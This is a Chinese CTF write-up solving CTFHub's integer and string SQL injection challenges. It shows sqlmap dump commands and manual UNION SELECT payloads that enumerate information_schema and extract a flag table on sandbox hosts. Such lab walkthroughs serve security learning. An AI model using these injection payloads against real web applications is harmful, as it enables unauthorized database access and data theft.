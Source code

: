 ```yaml
---
title: CTFhub注入题目
date: 2020-03-04 16:46:33
toc: true
tags: 
- CTFhub
categories: 
- writeup
---
```


# SQL注入

## 整数型注入

CTFHub SQL 整数型注入

### sqlmap一把梭

~~~mysql
sqlmap -u "http://challenge-4ac9e4a80dea47f1.sandbox.ctfhub.com:10080/?id=12345" -D sqli -T flag -C flag --dump
~~~

![image](https://user-images.githubusercontent.com/38073810/75864111-8162b580-5e3c-11ea-8fb1-41a231c03db5.png)

### 手注

当我们输入提示的数字1时，前端仅显示了一条数据

![image](https://user-images.githubusercontent.com/38073810/75861793-d8ff2200-5e38-11ea-9f8d-b47a6d0bdd90.png)

构造payload

~~~mysql
1 or 1=1 limit 1 offset 0		回显--->ID=1 Data:ctfhub
1 or 1=1 limit 1 offset 2   回显--->ID=114514 Data:sqli

12345 union select database(),2	 回显--->ID: sqli Data:2
~~~

然后information_schema一把梭

先查表名

~~~mysql
12345 union select group_concat(table_name),2 from information_schema.tables where table_schema='sqli'
~~~

![image](https://user-images.githubusercontent.com/38073810/75863367-4d3ac500-5e3b-11ea-8a11-a9c2c6a11457.png)

再查字段名

~~~
12345 union select group_concat(column_name),2 from information_schema.columns where table_name='flag'
~~~

![image](https://user-images.githubusercontent.com/38073810/75863140-faf9a400-5e3a-11ea-9f9f-9dc6a651d01b.png)

注入得到flag

~~~mysql
12345 union select flag,2 from sqli.flag
~~~

![image](https://user-images.githubusercontent.com/38073810/75863322-3d22e580-5e3b-11ea-92b1-ed782381b3be.png)



## 字符型注入

CTFHub SQL字符型注入

### sqlmap一把梭

~~~mysql
sqlmap -u "http://challenge-940a484565709b61.sandbox.ctfhub.com:10080/?id=11111" -D sqli -T flag -C flag --dump
~~~

![image](https://user-images.githubusercontent.com/38073810/75870302-c4755680-5e45-11ea-9c77-448ed2c3a843.png)

### 手注

我们输入1看到和整数型注入是一样的，只有两处回显。

然后我们注意引号和注释直接联合查询

~~~mysql
12345' union select database(),2 '
~~~

![image](https://user-images.githubusercontent.com/38073810/75865503-a0624700-5e3e-11ea-84dd-43cfbf41d885.png)

查表

~~~mysql
12345' union select group_concat(table_name),2 from information_schema.tables where table_schema='sqli' '
~~~

![image](https://user-images.githubusercontent.com/38073810/75865885-29797e00-5e3f-11ea-8411-f98a413373fa.png)

查字段

~~~mysql
12345' union select group_concat(column_name) ,2 from information_schema.columns where table_name='flag' #
~~~

![image](https://user-images.githubusercontent.com/38073810/75869982-50d34980-5e45-11ea-97f6-a4639db98034.png)

注入得到flag

~~~mysql
12345' union select flag,2 from sqli.flag #
~~~

![image](https://user-images.githubusercontent.com/38073810/75870595-26ce5700-5e46-11ea-852c-00eb08c034da.png)



将持续更新。。。